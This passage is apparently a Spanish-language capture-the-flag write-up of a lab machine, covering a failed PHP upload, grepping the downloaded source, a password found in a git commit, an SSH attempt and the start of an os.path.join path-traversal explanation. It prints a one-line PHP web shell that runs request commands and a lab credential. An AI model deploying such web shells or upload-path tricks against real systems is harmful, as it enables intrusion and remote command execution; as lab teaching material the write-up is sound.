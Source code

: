 Intento subir un php malicioso tipo:
``` php
 <?php
 echo "<pre>" . shell_exec($_REQUEST['cmd'] . "</pre>";
 ?>
```
Pero a la hora de llamarlo no funciona, es como si le diera al botón de "Browse File"..

También paso por burpsuite la petición. Pero que yo perciba..ninguna sospecha de vulnerabilidad.

![Burpsuite]({{ 'assets/img/writeups/OpenSource/burpsuite.png' | relative_url }}){: .center-image }

Miremos el código que nos descargamos antes en el .zip.

Busco primero por palabras clave:
```
> grep -riE "password|pass"

> grep -riE "system|exec|shell_exec_popen"
```
Mucha mierda..yo no sé que cojones está grepeando. No encuentro nada útil entre tanto jaleo de letras.

Unos parrafos atrás operando en el directorio .git vimos en uno de los commits de la branch dev que había una diferencia en un fichero:  
diff --git a/app/.vscode/settings.json b/app/.vscode/settings.json

Haciendo un git show del commit encuentro una contraseña para el usuario dev01.
```
> git show be4da71
[texto por aquí y al final:]
"http.proxy": "http://dev01:Soulless_Developer#2022@10.10.10.128:5187/",
```
Me intento conectar por ssh pero nada:
```
❯ ssh dev01@10.10.11.164
The authenticity of host '10.10.11.164 (10.10.11.164)' can't be established.
ECDSA key fingerprint is SHA256:a6VljAI6pLD7/108ls+Bi5y88kWaYI6+V4lTU0KQsQU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.164' (ECDSA) to the list of known hosts.
dev01@10.10.11.164: Permission denied (publickey).
```
Vamos a leer el código que nos descargamos.

## Explotación

El script views.py parece contenter la estructura de la herramienta de subida de archivos de la web. Y hay una función, la **os.path.join** que es vulnerable.

![Views]({{ 'assets/img/writeups/OpenSource/views.png' | relative_url }}){: .center-image }

Lo que hace esta función; `os.path.join(os.getcwd(), "public", "uploads", file_name)` es formar una ruta, en este caso de subida a la web, con la ruta actual(lo que hace el os.getcwd) y añade /public/uploads/file_name. El archivo que le metes será el file_name. La vulnerabilidad consiste en que si antes del nombre de tu archivo añades una barra lateral "/" elimina toda la ruta anterior. Te muestro ejemplo:

